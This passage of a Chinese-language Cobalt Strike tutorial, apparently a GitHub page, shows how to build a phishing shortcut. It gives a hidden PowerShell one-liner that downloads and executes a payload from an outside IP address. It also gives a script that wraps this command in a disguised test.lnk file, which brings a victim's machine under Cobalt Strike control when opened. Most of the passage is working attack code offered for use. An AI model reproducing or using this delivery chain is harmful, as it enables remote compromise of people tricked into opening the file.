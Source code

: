 ```
cmd /c calc.exe
```

<img src="CobaltStrike的使用教程/动画-16651924497181.gif" alt="动画" style="zoom:50%;" />	



### 步骤

选择`钓鱼攻击>Scripted Web Delivery`, 生成PowerShell远程执行代码

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

![image-20221008093244770](CobaltStrike的使用教程/image-20221008093244770.png)	

![image-20221008093510210](CobaltStrike的使用教程/image-20221008093510210.png)	



按照上面做的简单powershell步骤,将其内容里的calc.exe换成powershell代码, 保存为test.txt文件 

```
cmd /c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

![image-20221008094547272](CobaltStrike的使用教程/image-20221008094547272.png)	



创建LNK.ps1文件, 将如下代码写入进去, 然后右键powershell执行后, 会在文件当前目录下生成test.lnk文件

若受害机运行了test.lnk文件, 则在CS上线

> 注意:LNK.ps1和test.txt要在同一目录下

```powershell
# 从 "test.txt" 文件中获取内容，并将该内容存储在变量 $file 中
$file = Get-Content "test.txt"

# 创建一个 COM 对象，该对象对应于 Windows Script Host Shell，可以用来执行各种系统任务，例如创建快捷方式
$WshShell = New-Object -comObject WScript.Shell

# 使用 WSH Shell 的 `CreateShortcut` 方法创建一个快捷方式，该快捷方式的名称是 "test.lnk"
$Shortcut = $WshShell.CreateShortcut("test.lnk")

# 设置快捷方式的目标路径，也就是快捷方式所指向的程序。这里设置的是 cmd.exe，它是 Windows 的命令提示符
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"

# 设置快捷方式的图标位置。这里设置的是 Shell32.dll 文件中的第 21 个图标
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"

# 设置当启动目标程序时要传递给它的命令行参数。这里设置的是 "test.txt" 文件的内容
$Shortcut.Arguments = ''+ $file

# 保存对快捷方式的所有更改，创建了实际的 ".lnk" 文件
$Shortcut.Save()
```
